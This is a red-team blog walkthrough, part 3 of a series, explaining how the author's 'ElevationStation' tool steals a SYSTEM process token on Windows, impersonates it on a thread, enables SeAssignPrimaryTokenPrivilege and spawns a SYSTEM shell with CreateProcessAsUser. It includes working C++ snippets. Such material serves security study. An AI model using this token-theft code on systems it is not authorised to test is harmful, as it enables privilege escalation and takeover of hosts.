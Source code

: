 ```yaml
---
title:  "ElevationStation - A walkthrough through the development process [PART 3]"
categories:
  - privilege escalation
tags:
  - escalation
  - psexec
  - malware
  - red team
  - win32api
  - privesc
  - privilege escalation
  - elevationstation
  - getsystem
  - metasploit
---
```


Hey, we made it to part 3 already!  Glad you are still hanging around and hopefully this part is as insightful and exciting to you as it was for me...er...I get excited very easily.  You may not get as hyped as I did but that's cool, I'll shutup now and we can get started 😆  This is my favorite part of the entire code behind elevationstation, and consequently the portion of my research into privilege escalation using token manip that took the longest to figure out 😜

For Part 3, will be discussing SYSTEM token manipulation involving execution threads... 

Our goal: 
-
Spawn a SYSTEM shell within our current shell, and not a separate shell like we did in PART 1.

The Dilemma
- 
Each process has a set of privileges either enabled by default or disabled.  If the privilege we need isn't listed, we can't enable it.  There's no adding it magically into the process' current primary token.  We just so happen to need a privilege that is **NOT** enabled by default in an administrative command shell:
**SE_ASSIGNPRIMARYTOKEN_NAME**

Here are the token privileges for our admninistrative / elevated cmd.exe.  See for yourself, that privilege doesn't exist:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/fb5c8af8-9eb8-4d0b-b986-fa4a4db5f08c)

Why do we even need this stupid privilege in the first place?  Because CreateProcessAsUser, which allows for spawning a cmd shell within the current console, **MUST** have this privilege enabled in almost all circumstances to execute a new process.  Check this out:

**CreateProcessAsUserA function (processthreadsapi.h)**

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8c61852b-5e7c-481a-a81d-9d82e5bd6059)
[CreateProcessAsUser Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)

The absolutely infuriating aspect to all this is **CreateProcessWithToken** is VERY forgiving with required token privileges for spawning a new process.  
However, it has a "bug" which will not allow the spawning of a process within the current process.  In our case, a new cmd shell within our current cmd shell.
If ANYONE knows a way around this, please, speak up.  Inquiring minds need to know 🤔

The Solution!
-
Residing in our target process we wish to steal privs from lies the highly sought after privilege we so desperately need.  

`Step 1` - We need to steal & impersonate the process impersonation token from the target process with SYSTEM privileges
```cpp
int DupThreadToken(DWORD pid)
{
    setProcessPrivs(SE_DEBUG_NAME);
    remoteproc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, TRUE, pid);
    if (remoteproc)
    {
        Color(2);
        wprintf(L"[+] Opened remote process!\n");
        Color(7);
    }
    else
    {
        Color(14);
        wprintf(L"[!] OpenProcess(). Error: %d\n", GetLastError());
        Color(7);
    }
    
   ➡️ if (!OpenProcessToken(remoteproc, TOKEN_IMPERSONATE | TOKEN_DUPLICATE | TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY, &tok2)) ⬅️
    {
        Color(14);
        wprintf(L"[!] OpenProcessToken(). Error: %d\n", GetLastError());
        Color(7);
    }
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2de0b57e-7b0f-4fc6-a4d2-923625e4992e)

Okay!  so now we have a handle to the process token for the target process, in this case it is AppleMobleDeviceService.exe, which is running as **NT AUTHORITY/SYSTEM**

Next up, we need to set the new token privs to our current process' execution thread.  I duplicate the impersonation token here to be on the safe side, but it may not be necessary. Either way, it works so no harm done.  So, dup the remote process token and then set the threadtoken to our current thread using `NULL`

```cpp
if (!DuplicateToken(tok2, SecurityImpersonation, &hNewToken))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx() failed. Error: %d\n", GetLastError());
        Color(7);
    }
    if (SetThreadToken(NULL, hNewToken))
    {
        Color(2);
        printf("[+] Successfully set the thread token!\n");
        Color(7);
    }
```
We now have the remote process' privileges in our current process' execution thread!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/dad2d5f9-7b27-4838-8f16-a81385051aee)

Now that we hold the privileges of the SYSTEM process, let's enable the privilege we wanted in the first place!

```cpp
setThreadPrivs(SE_INCREASE_QUOTA_NAME);     //need this for CreateProcessAsUser!
setThreadPrivs(SE_ASSIGNPRIMARYTOKEN_NAME); //need this for CreateProcessAsUser!
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2637214c-ab91-4c32-945a-52efcdcdf121)

Awesome, it's now enabled and I also went ahead and enabled SeIncreaseQuotaPrivilege too just in case.

We're almost there!  From here, we do some final magic and open a threadtoken against our current process now that we have all our privileges set, and duplicate that token to create a new primary token.  From there, we now finally have a handle to a brand new primary token that holds that privilege we needed from the **SYSTEM** process we stole it from!  All this just to spawn a shell within our current shell because this API is rude... 😠😆  Here's the code:
```cpp
 if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hSystemToken))
    {
        Color(14);
        wprintf(L"[!] OpenThreadToken(). Error: %d\n", GetLastError());
        Color(7);
    }
  if (!DuplicateTokenEx(hSystemToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx() failed. Error: %d\n", GetLastError());
        Color(7);
    }
    bRet = CreateProcessAsUser(hSystemTokenDup, NULL, wszProcessName, NULL, NULL, TRUE, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &StartupInfo, &ProcInfo);

    if (bRet == 0)
    {
        Color(14);
        printf("[!] CreateProcessAsUser didn't cooperate...\n");
        Color(7);
        printf("Return value: %d\n", GetLastError());
    }
    else
    {
        Color(2);
        printf("[+] CreateProcessAsUser worked!!!\n");
        Color(7);
        printf("Return value: %d\n", bRet);
        fflush(stdout);
        WaitForSingleObject(ProcInfo.hProcess, INFINITE);

    }
```
and the shell!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/a446b774-b475-4c2c-aa82-45e96ff21db3)

Okay, you can breathe.  It's over, you made it to the end. Well done.  I'm tired now so I'm going to bring this to a close.  Hopefully this made some sense and you learned how high maintenance some windows APIs can be. That said, we still managed to overcome our obstacle and pop that desired shell.  Until next time!

-RBC

